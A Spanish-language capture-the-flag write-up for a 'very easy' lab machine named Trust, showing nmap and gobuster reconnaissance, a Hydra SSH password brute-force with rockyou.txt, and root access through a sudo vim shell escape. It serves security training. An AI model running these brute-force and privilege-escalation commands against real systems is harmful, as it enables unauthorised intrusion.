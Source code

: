 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Muy Fácil  📅 Fecha de creación:
  02/04/2024
---
```


# Trust

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.22.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/0 (3).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.22.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (3).png>)

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.22.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2 (3).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagaremos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea un formulario de iniciar sesión.

![](<../../.gitbook/assets/3 (3).png>)

Ahora, buscamos directorios con la herramienta **Gobuster** a través del comando:

```bash
gobuster dir -u http://172.22.0.2/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 20 -x html,php,txt,js
```

<figure><img src="../../.gitbook/assets/4 (3).png" alt=""><figcaption></figcaption></figure>

Vemos que hay dos directorios con estado **200**, lo que significa que la solicitud realizada por el cliente fue exitosa. Procederemos a investigar más sobre estos directorios.

<figure><img src="../../.gitbook/assets/5 (3).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.22.0.2 -t 5
```

Este comando utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio SSH de una máquina con la IP **172.22.0.2**.

<figure><img src="../../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, descubrimos la contraseña de **mario**. Sabiendo esto, nos conectamos a través de SSH al usuario con el comando:

```bash
ssh mario@172.22.0.2
```

<figure><img src="../../.gitbook/assets/7 (2).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que ejecutamos:

```bash
sudo -l
```

para ver si hay algo que podamos explotar.

![](<../../.gitbook/assets/8 (2).png>)

Observamos que podemos escalar privilegios con **vim** utilizando el comando:

```bash
sudo vim -c ':!/bin/sh'
```

Tras eso, ejecutamos:

```bash
whoami
```

y confirmamos que ya somos **root**.

<figure><img src="../../.gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (549).png" alt=""><figcaption></figcaption></figure>
